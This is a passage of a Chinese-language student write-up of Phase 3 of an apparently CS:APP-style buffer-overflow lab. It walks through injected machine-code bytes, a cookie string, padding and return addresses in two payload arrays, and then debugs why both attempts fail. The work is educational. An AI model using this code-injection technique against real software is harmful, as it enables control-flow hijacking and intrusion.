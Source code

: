 ## Phase 3

这次同样需要将 `%rdi` 修改，但是需要改成一个地址，而这个地址指向的是存放有 `cookie` 的字符数组。

指令注入与转移部分保持不变，这次要考虑 `cookie` 数组的存放位置，只要将这个位置（替代 `Phase 2` 中 `cookie` 本身）存入 `%rdi` 中即可。

很显然的，`cookie` 数字直接放在输入串中即可，当然还有结尾的 `'\0'`。。

再将串中注入的 `movq` 指令的操作数，从 `cookie` 本身，改为对应的地址。

关于 `cookie` 地址的获取，由于同样是在输入串中，和 `Phase 2` 中指令地址的获取并无不同，只需确保它们在输入串中的位置，和地址的偏移量正确即可。

假设 `cookie` 串在输入串的**下标** `8` 的位置，那么 `movq` 的操作数便是 `%rsp + 8`，输入串末尾的返回地址同理，根据注入指令的位置做适当的偏移即可。

```c
    buf[40] = { /* Phase 3 */
        0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
        0xFA, 0x97, 0xB9, 0x59, 0x00, 0x00, 0x00, 0x00, /* 这里是 cookie */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
        0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
    }
```

提交，发现不对

> ?

回头思考，`8` 位的 `cookie` 应该是 `8` 字节长，但却只用了 `4` 字节。原来应该把数字用 `ascii` 码转化为字符形式作为输入，错误的直接用数字本身输入了。

使用命令 `man ascii` 查看 `ascii` 码表，将其对应得放入输入串中即可。

```c
    buf[40] = { /* Phase 3 ver.2 */
        0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
        0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
        0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
    }
```

提交仍然报错，而且这次的报错信息（`Misfire` 后括号中的输入函数的变量内容）和上次相同 `??aU` 。

说明和具体输入串内容无关，应该是在某处，输入串被修改为其它内容，导致后续判断不通过。

重新回看手册，发现在 `Phase 3` 部分有一个另外的函数 `hexmatch`，函数目的是检查输入的串和数字是否相符。其中函数创建了 `char cbuf[110]`，用于随机化对比串。

函数在 `touch3` 中被调用，此时 `getbuf` 中的 `buf` 数组已不在栈中，现在的 `touch3` 以及其调用的 `hexmatch`（以及可能的其他函数）都会重新申请栈空间，将原本的内容覆盖掉。

或许找到了出错的原因，`hexmatch` 等函数申请栈空间将存储在 `buf` 数组中的 `cookie` 数组覆盖掉了，导致判断不正确。

此时可以在 `hexmatch` 前后分别检查 `buf` 数组的内容，如果发生变化说明确实是这样的原因
